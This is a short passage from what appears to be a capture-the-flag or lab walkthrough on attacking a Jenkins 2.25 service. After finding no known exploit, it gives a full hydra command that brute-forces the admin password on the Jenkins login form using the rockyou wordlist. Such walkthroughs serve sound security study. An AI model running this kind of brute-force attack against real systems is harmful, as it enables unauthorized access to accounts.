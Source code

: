 <figure><img src="../../.gitbook/assets/internal60.png" alt=""><figcaption></figcaption></figure>

There is any exploit to the Jenkins 2.25 version?

Apparently no. The default user seems to be admin, we can perform an hydra attack to check if we can bruteforce the password:

<figure><img src="../../.gitbook/assets/internal61.png" alt=""><figcaption></figcaption></figure>

```jsx
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid" -V
```
